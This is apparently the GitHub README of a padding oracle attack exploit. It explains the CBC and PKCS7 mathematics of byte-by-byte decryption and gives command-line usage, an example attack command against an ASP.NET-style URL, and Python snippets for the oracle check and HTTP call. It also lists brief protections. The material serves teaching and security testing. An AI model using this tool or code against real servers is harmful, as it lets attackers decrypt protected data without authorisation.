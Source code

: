 # Padding Oracle Attack

An exploit for the [Padding Oracle Attack](https://en.wikipedia.org/wiki/Padding_oracle_attack). Tested against ASP.NET, works like a charm. The CBC  mode must use [PKCS7](https://en.wikipedia.org/wiki/Padding_%28cryptography%29#PKCS7) for the padding block.
This is an implementation of this great article [Padding Oracle Attack](https://not.burntout.org/blog/Padding_Oracle_Attack/). Since the article is not very well formated and maybe unclear, I made an explanation in the readme. i advise you to read it if you want to understand the basics of the attack.
This exploit allow block size of 8 or 16 this mean it can be use even if the cipher use AES or DES. You can find instructions to launch the attack [here](https://github.com/mpgn/Padding-Oracle-Attack#options).

I also made a test file `test.py`, you don't need a target to use it :)

## Explanation

I will explain in this part the cryptography behind the attack. To follow this you need to understand the [CBC mode cipher chainning](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_Block_Chaining_.28CBC.29) or [video link](https://www.youtube.com/watch?v=0D7OwYp6ZEc.) and the operator ⊕. This attack is also a [chosen-ciphertext attack](https://en.wikipedia.org/wiki/Chosen-ciphertext_attack).

Encryption | Decryption
--- | --- 
C<sub>i</sub> = E<sub>k</sub>(P<sub>i</sub> ⊕ C<sub>i-1</sub>), and C<sub>0</sub> = IV | P<sub>i</sub> = D<sub>k</sub>(C<sub>i</sub>) ⊕ C<sub>i-1</sub>, and C<sub>0</sub> = IV

In CBC mode we also need a padding in the case the length of the plaintext doesn't fill all the block. For example we can have this plaintext and the following padding if the length of the block is 8 :

`S|E|C|R|E|T| |M|E|S|S|A|G|E|02|02`

You can notice the length of SECRET MESSAGE is 14 so we need to fill two blocks of CBC equal 16. There are two bytes left, this is where the padding step in. You can see the two last byte 0202. Another example, if the padding had a length of 5, it will be fill with 05|05|05|05|05. Of course there is different way to fill the padding but in our case like most of the case the standard is [PKCS7](https://en.wikipedia.org/wiki/Padding_%28cryptography%29#PKCS7) for the padding block.

If the padding does not match the PKCS7 standard it will produce an error. Example :

`S|E|C|R|E|T| |M|E|S|S|A|G|E|03|03`

When the block will be deciphered there will be a verification to check if the padding is good or not :

`S|E|C|R|E|T| |M|E|S|S|A|G|E|03|03` => Wrong padding <br>
`S|E|C|R|E|T| |M|E|S|S|A|G|E|02|02` => Good padding

Now imagine we can **know** when we have a bad padding and a good padding (the server send an "error padding" or "404 not found" when the padding is wrong etc). We will call this our [Oracle](http://security.stackexchange.com/questions/10617/what-is-a-cryptographic-oracle). The answers he will give us will be :

* good padding
* bad padding

Now we know that, we can construct a block to retrieve one byte of the plaintext, don't forget this is a chosen-ciphertext attack.
An attacker will intercept a cipher text and retrieve byte by byte the plaintext.

* intercepted cipher : C<sub>0</sub> | C<sub>...</sub> | C<sub>i-1</sub> | C<sub>i</sub>
* then build a block like this :

C'<sub>i-1</sub> = C<sub>i-1</sub> ⊕ 00000001 ⊕ 0000000X | C<sub>i</sub>

Where X is a char between `chr(0-256)`. 

* then he sends C'<sub>i-1</sub> \| C<sub>i</sub> to the oracle. The oracle will decrypt like this :

D<sub>k</sub>(C<sub>i</sub>) ⊕ C'<sub>i-1</sub>  <br>
= D<sub>k</sub>(C<sub>i</sub>) ⊕ C<sub>i-1</sub> ⊕ 00000001 ⊕ 0000000X <br>
= P<sub>i</sub> ⊕ 00000001 ⊕ 0000000X <br>

Now there is two possibilities: a padding error or not :

* if we have a padding error :

```
If P'i ⊕ 0000000Y == abcdefg5 then:
    abcdefg0 ⊕ 00000001 = abcdefg5
```
This is a wrong padding, so we can deduce the byte Y is wrong.

* The oracle didn't give us a padding error and we know the byte X is good :

```
If Pi ⊕ 0000000X == abcdefg0 then:
    abcdefg0 ⊕ 00000001 = abcdefg1
```

<hr>

**For the second byte :**


C'<sub>i-1</sub> = C<sub>i-1</sub> ⊕ 00000022 ⊕ 000000YX \| C<sub>i</sub>

And then : 

D<sub>k</sub>(C<sub>i</sub>) ⊕ C'<sub>i-1</sub> <br>
= D<sub>k</sub>(C<sub>i</sub>) ⊕ C<sub>i-1</sub> ⊕ 00000022 ⊕ 000000YX <br>
= P<sub>i</sub> ⊕ 00000001 ⊕ 00000YX <br>

* The oracle didn't give us a padding error and we know the byte X is good :

```
If Pi ⊕ 000000YX == abcdef00 then:
    abcdef00 ⊕ 00000022 = abcdef22
```

etc etc for all the block. You can now launch the python script by reading the next section :)


### Protection 

* Encrypt and MAC your data : http://security.stackexchange.com/questions/38942/how-to-protect-against-padding-oracle-attacks
* Don't give error message like "Padding error", "MAC error", "decryption failed" etc

## Options

The test file if you don't have target :

```bash
python test.py -m mysecretmessage
```

The exploit : 
```
usage: exploit.py [-h] -c CIPHER -l LENGTH_BLOCK_CIPHER --host HOST -u
                  URLTARGET --error ERROR [--cookie COOKIE]
                  [--method METHOD] [--post POST] [-v]
```
Details required options:
```bash
-h help
-c cipher chain
-l length of a block example: 8 or 16
-u UrlTarget for example: ?/page=
--host hostname example: google.fr
--error Error that the orcale give you for a wrong padding
    example: with HTTP method: 200,400,500
             with DOM HTML   : "<h2>Padding Error</h2>"
```
Optional options:
```bash
--cookie Cookie parameter example: PHPSESSID=9nnvje7p90b507shfmb94d7
--method Default GET methode but can se POST etc
--post POST parameter if you need example 'user':'value', 'pass':'value'
```

Example:
```bash
python exploit.py -c E3B3D1120F999F4CEF945BA8B9326D7C3C8A8B02178E59AF506666542AB5EF44 -l 16 --host host.com -u /index.aspx?c= -v --error "Padding Error"
```

<a href="https://asciinema.org/a/40222" target="_blank"><img src="https://asciinema.org/a/40222.png" height="350" width="550" ></a>

## Customisation

> I wan to customize the Oracle !

Example with sockets https://gist.github.com/mpgn/fce3c3f2aaa2eeb8fac5

No problem, find these line and do what you have to do :)

* Custom oracle response: 
```python
####################################
# CUSTOM YOUR RESPONSE ORACLE HERE #
####################################
''' the function you want change to adapte the result to your problem '''
def test_validity(response,error):
    try:
        value = int(error)
        if int(response.status) == value:
            return 1
    except ValueError:
        pass  # it was a string, not an int.

    # oracle repsonse with data in the DOM
    data = response.read()
    if data.find(error) == -1:
        return 1
    return 0
```

* Custom oracle call (HTTP)
```python
################################
# CUSTOM YOUR ORACLE HTTP HERE #
################################
def call_oracle(host,cookie,url,post,method,up_cipher):
    if post:
        params = urllib.urlencode({post})
    else:
        params = urllib.urlencode({})
    headers = {"Content-type": "application/x-www-form-urlencoded","Accept": "text/plain", 'Cookie': cookie}
    conn = httplib.HTTPConnection(host)
    conn.request(method, url + up_cipher, params, headers)
    response = conn.getresponse()
    return conn, response
```

